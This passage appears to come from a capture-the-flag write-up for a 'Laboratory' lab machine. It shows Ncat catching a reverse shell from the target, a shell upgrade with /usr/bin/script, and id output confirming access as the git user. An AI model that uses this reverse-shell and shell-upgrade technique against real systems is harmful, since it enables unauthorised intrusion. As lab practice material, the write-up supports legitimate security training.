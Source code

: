 ![](Maszyny/Linux/Laboratory/Pasted%20image%2020210912004336.png)

Ncat: Connection from 10.10.10.216.
Ncat: Connection from 10.10.10.216:54174.
/bin/sh: 0: can't access tty; job control turned off
id
uid=998(git) gid=998(git) groups=998(git)
/usr/bin/script -qc /bin/bash /dev/null
id
id
uid=998(git) gid=998(git) groups=998(git)
gitagit:~/gitlab-rails/working |
